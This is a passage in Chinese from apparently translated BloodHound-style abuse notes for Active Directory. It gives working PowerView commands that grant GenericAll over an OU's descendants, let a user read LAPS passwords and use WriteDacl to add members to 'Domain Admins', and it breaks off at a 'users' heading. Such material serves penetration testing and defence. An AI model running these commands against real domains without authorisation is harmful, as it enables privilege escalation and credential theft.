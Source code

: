 然后我们将构建我们的 ACE。此命令将创建一个 ACE，授予“JKHOLER”用户对所有后代对象的完全控制权：

```
ACE = New-ADObjectAccessControlEntry -Verbose -PrincipalIdentity 'JKOHLER' -Right GenericAll -AccessControlType Allow -InheritanceType All -InheritedObjectType $AllObjectsPropertyGuid
```

最后，我们将此 ACE 应用于我们的目标 OU：

```
$OU = Get-DomainOU -Raw (OU GUID)
$DsEntry = $OU.GetDirectoryEntry()
$dsEntry.PsBase.Options.SecurityMasks = 'Dacl'
$dsEntry.PsBase.ObjectSecurity.AddAccessRule($ACE)
$dsEntry.PsBase.CommitChanges()
```

现在，“JKOHLER”用户将完全控制每种类型的所有后代对象。

有针对性的后代对象接管：

如果您希望您的方法更有针对性，则可以准确指定您想要将什么权限应用于哪些类型的后代对象。例如，您可以授予用户针对所有用户对象的“ForceChangePassword”权限，或者授予安全组读取特定 OU 下每个 GMSA 密码的能力。下面是一个取自 PowerView 帮助文本的示例，说明如何授予“ITADMIN”用户从“工作站”OU 中的所有计算机对象读取 LAPS 密码的能力：

```
$Guids = Get-DomainGUIDMap
$AdmPropertyGuid = $Guids.GetEnumerator() | ?{$_.value -eq 'ms-Mcs-AdmPwd'} | select -ExpandProperty name
$CompPropertyGuid = $Guids.GetEnumerator() | ?{$_.value -eq 'Computer'} | select -ExpandProperty name
$ACE = New-ADObjectAccessControlEntry -Verbose -PrincipalIdentity itadmin -Right ExtendedRight,ReadProperty -AccessControlType Allow -ObjectType $AdmPropertyGuid -InheritanceType All -InheritedObjectType $CompPropertyGuid
$OU = Get-DomainOU -Raw Workstations
$DsEntry = $OU.GetDirectoryEntry()
$dsEntry.PsBase.Options.SecurityMasks = 'Dacl'
$dsEntry.PsBase.ObjectSecurity.AddAccessRule($ACE)
$dsEntry.PsBase.CommitChanges()
```

## WriteDacl

通过对目标对象的 DACL 的写访问权限，您可以授予自己对该对象所需的任何权限。

+ 滥用信息

通过修改目标对象上的 DACL 的能力，您可以授予自己针对您想要的对象的几乎任何特权。

**团体**

通过组上的 WriteDACL，授予您自己向组添加成员的权利：

```
Add-DomainObjectAcl -TargetIdentity "Domain Admins" -Rights WriteMembers
```

有关从此处执行攻击的更多信息，请参阅 AddMembers 边缘的滥用信息。

**用户**

